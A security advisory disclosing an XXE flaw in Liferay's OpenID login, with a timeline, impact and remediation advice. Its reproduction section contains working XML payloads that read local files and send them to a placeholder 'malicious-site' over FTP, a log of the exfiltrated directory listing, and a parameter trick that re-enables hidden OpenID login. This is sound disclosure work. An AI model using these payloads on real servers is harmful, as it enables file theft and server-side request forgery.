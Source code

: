 # XML External Entity XXE vulnerability in OpenID component of Liferay

- Author: Sandro Gauci <sandro@enablesecurity.com>
- Vulnerable version: Liferay 6.2.3 CE GA4 and earlier
- Liferay reference: LPS-58014
- Timeline:
	- Report date: March 16 2015
	- Liferay patch: August 26 2015
	- Liferay advisory: January 18 2016
	- Enable Security advisory: June 1 2016

## Description

Liferay supports OpenID login which was found to make use of a version
of `openid4java` that is vulnerable to XML External Entity (XXE)
attacks.

## Impact

Abuse of the XXE vulnerability can (at least) lead to local file
disclosure, server-side request forgery (SSRF) and denial of service.
This vulnerability was abused to read local files on the web server
that the web application had access to.

## How to reproduce the issue

This issue was previously discovered to affect  [one of Google's web
server](https://code.google.com/p/chromium/issues/detail?id=240139)
which was using the same OpenID library.

To abuse this vulnerability, an attacker needs to:

1. Force Liferay to make use of OpenID for authentication
2. Provide an attacker-controlled URL (web location) as the OpenID URL. This URL should contain malicious XML (see below)
3. Upon reading the XML, the OpenID library will attempt to load the external entity on the attacker's web server
4. This external entity instructs the library to read a file from local disk and make use of it's contents to load another file from an attacker controlled (custom) FTP server

Thus the contents of the file to be read are sent to the custom FTP
server. During exploitation, we had to make use of a fake FTP server
(from <https://github.com/ONsec-Lab/scripts>) to receive the
information. However, it might be possible to use HTTP and other
protocols too depending on the version of Java used and other
variables.

For step 1, the attacker needs to locate the authentication form in
Liferay and then click on the OpenID link. The attacker then specifies <http://malicious-site> as an OpenID URL. This website would contain the following:

```html
<meta http-equiv="X-XRDS-Location" 
	content="http://malicious-site/yadis.xml"> 
```

As the OpenID library reads that, it loads `yadis.xml` which would contain the
following:

```xml
<?xml version="1.0"?>
	<!DOCTYPE a [
	   <!ENTITY % asd SYSTEM "http://malicious-site/xxe.xml"> 
	   %asd; 
	   %rrr; 
	]>
<a></a>
```

This loads `xxe.xml` which in turn would contain the following:

	<!ENTITY % b SYSTEM "file:///">
	<!ENTITY % c "<!ENTITY &#37; rrr SYSTEM 'ftp://malicious-site:443/%b;'>">
	%c;

Once the XML interpreter parses these contents, it connects to the FTP
site, sending the contents of the root directory on the server as can
be seen in the following log:

	> sudo ruby xxe-ftp-server.rb
	FTP. New client connected
	< USER anonymous
	< PASS Java1.6.0_21@
	> 230 more data please!
	< TYPE I
	> 230 more data please!
	< EPSV ALL
	> 230 more data please!
	< EPSV
	> 230 more data please!
	< EPRT |1|172.x.x.x|39051|
	> 230 more data please!
	< bin
	> 230 more data please!
	< boot
	> 230 more data please!
	< dev
	> 230 more data please!
	< etc
	> 230 more data please!
	< home
	> 230 more data please!
	... etc

Directories and also local files could be read using this method.

Note that sometimes the OpenID login method is hidden but the functionality is not disabled from within Liferay itself. In such cases, it is possible to force Liferay to make use of OpenID anyway by setting the `_58_struts_action` parameter from `/login/login` to `/login/open_id`. 

## Solutions and recommendations

Upgrading to the latest version of Liferay should address this
security vulnerability.

Additionally, to address this issue it is recommended to disable
OpenID support.

## Further reading

- <http://openid.net/2011/05/05/attribute-exchange-security-alert/>
- <https://code.google.com/p/chromium/issues/detail?id=240139>
